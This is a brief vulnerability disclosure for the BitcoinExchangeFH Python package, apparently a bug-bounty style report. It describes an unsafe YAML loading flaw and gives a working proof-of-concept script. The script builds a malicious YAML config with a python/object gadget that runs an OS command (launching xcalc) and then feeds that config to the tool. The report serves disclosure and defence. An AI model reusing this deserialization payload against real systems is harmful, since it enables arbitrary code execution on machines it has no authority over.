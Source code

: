 # Description

`BitcoinExchangeFH` is a slim application to record the price depth and trades in various exchanges

# Vulnerability

Vulnerable to YAML deserialization attack caused by unsafe loading.

# Proof of Concept

### Installation
```bash
pip3 install bitcoinexchangefh
```

### Run exploit.py
```
import os
#os.system('pip install bitcoinexchangefh')
payload = """cmd: !!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
"""
open('config.yml','w+').write(payload)
os.system('bitcoinexchangefh --configuration config.yml')
```
* `python3 exploit.py`

# Impact

Arbitary Code Execution
